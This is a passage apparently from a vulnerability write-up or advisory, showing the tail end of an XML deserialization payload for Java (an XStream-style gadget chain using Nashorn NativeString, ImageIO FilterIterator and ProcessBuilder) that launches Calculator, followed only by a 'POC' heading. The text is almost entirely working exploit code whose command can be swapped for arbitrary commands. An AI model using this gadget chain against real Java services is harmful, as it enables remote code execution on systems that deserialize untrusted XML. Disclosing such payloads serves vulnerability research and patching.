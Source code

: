 ```java
                    <iter class="javax.imageio.spi.FilterIterator">
                        <iter class="java.util.Collections$EmptyIterator"/>
                        <next class="java.lang.ProcessBuilder">
                        <command>
                            <string>open</string>
                            <string>-a</string>
                            <string>Calculator</string>
                        </command>
                        <redirectErrorStream>false</redirectErrorStream>
                        </next>
                    </iter>
                    <filter class="javax.imageio.ImageIO$ContainsFilter">
                        <method>
                        <class>java.lang.ProcessBuilder</class>
                        <name>start</name>
                        <parameter-types/>
                        </method>
                        <name>foo</name>
                    </filter>
                    <next class="string">foo</next>
                    </serviceIterator>
                    <lock/>
                </cipher>
                <input class="java.lang.ProcessBuilder$NullInputStream"/>
                <ibuffer></ibuffer>
                <done>false</done>
                <ostart>0</ostart>
                <ofinish>0</ofinish>
                <closed>false</closed>
                </is>
                <consumed>false</consumed>
            </dataSource>
            <transferFlavors/>
            </dataHandler>
            <dataLen>0</dataLen>
        </value>
        </jdk.nashorn.internal.objects.NativeString>
        <jdk.nashorn.internal.objects.NativeString reference="../jdk.nashorn.internal.objects.NativeString"/>
    </entry>
    <entry>
        <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
        <jdk.nashorn.internal.objects.NativeString reference="../../entry/jdk.nashorn.internal.objects.NativeString"/>
    </entry>
</map>          
```

### POC
